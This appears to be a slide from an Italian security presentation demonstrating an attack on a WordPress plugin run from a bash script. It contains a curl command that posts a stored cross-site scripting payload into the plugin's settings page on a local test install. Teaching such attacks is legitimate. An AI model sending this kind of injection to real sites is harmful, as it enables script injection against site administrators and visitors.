

# Attacco…
Attacco via script bash
Esecuzione da terminale
File bash automatizza l’attacco
curl -k -i --raw -X POST -d "sgcgoogleanalytic=<script>alert("1");</script>&sgcwebtools=&button=Save+Changes&action=savegooglecode" "http://localhost:8080/wordpress/wp-admin/options-general.php?page=smartcode" -H "Host:localhost:8080" -H "Content-Type: application/x-www-form-urlencoded"